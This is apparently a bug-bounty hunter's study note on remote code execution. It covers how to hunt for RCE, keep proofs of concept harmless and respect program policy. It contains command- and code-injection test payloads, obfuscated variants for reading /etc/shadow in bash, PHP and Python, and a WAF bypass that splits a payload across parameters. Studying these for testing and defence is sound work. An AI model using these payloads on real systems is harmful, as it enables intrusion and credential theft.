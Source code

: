 ### what & how
occurs when an attacker can execute arbitrary code on a target machine because of a vulnerability (file upload, code injection, SQLi, insecure deserialization, template injection,..) or misconfiguration.
RCE is not a vuln itself but it result of exploit migration, most street forward to find is via [[code injection]]  or [[file Inclusion]]
### hunt for it
Hunting for classic RCE, Blind RCE(*reverse_shell*) is a similar process, but the commands or code snippets you’ll need to use to verify these vulnerabilities will differ.
1. Gather Information About the Target: 
	1. find out information about the web server, programming language, and other technologies used by your current target. in order to write effective payload
2. Identify Suspicious User Input Locations
	1. When hunting for code injections, take note of every direct user-input location, including URL parameters, HTTP headers, body parameters, and file uploads.
	2. find potential file inclusion vulnerabilities, check for input locations being used to determine filenames or paths, as well as any file-upload functionalities in the application
3. Submit Test Payloads
	1. python `print('RCE')`, `"__import__('os').system('ls;sleep 15')"`
	2. unix `| sleep(10)`, `;ls;`, `&sleep(10)`, `$(sleep(5))`
###### Don't Escalating the Attack 
if u get RCE in a bug bounty program, don't try system privilege escalation, cuz You might accidentally read sensitive file or cause damage to the systems. always read program policy
just run `cat /etc/passwd`, `touch rce_demrt.txt`, for blind `sleep` 
When you create your POC, make sure that your payload executes a harmless command and that your report describes the steps needed to achieve RCE. Often, reading a non-sensitive file or creating a file under a random path is enough to prove your findings
### Bypass Protection
for command injection try
```bash
cat /etc/shadow 
cat "/e"tc'/shadow' 
cat /etc/sh*dow 
cat /etc/sha``dow 
cat /etc/sha$()dow 
cat /etc/sha${}dow
```
for code injection
```php
system('cat /etc/shadow');
('sys'.'tem')('cat /etc/shadow');
system/**/('ls');
'\x73\x79\x73\x74\x65\x6d'('ls');
```
```python
__import__('os').system('cat /etc/shadow')
__import__('o'+'s').system('cat /etc/shadow')
__import__('\x6f\x73').system('cat /etc/shadow')
```
u can bypass WAF by split your payload 
```
GET /calculator?calc="__import__('os').sy"&calc="stem('ls')"
```

